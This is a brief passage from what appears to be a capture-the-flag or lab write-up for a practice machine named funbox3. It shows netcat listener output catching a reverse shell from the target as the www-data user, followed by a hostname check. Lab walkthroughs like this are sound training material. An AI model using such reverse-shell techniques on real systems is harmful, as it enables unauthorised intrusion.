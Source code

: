 ![](images/funboxeasy12.png)

```bash
listening on [any] 4444 ...
connect to [192.168.49.211] from (UNKNOWN) [192.168.211.111] 44506
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:34:09 up  1:47,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname
funbox3
```

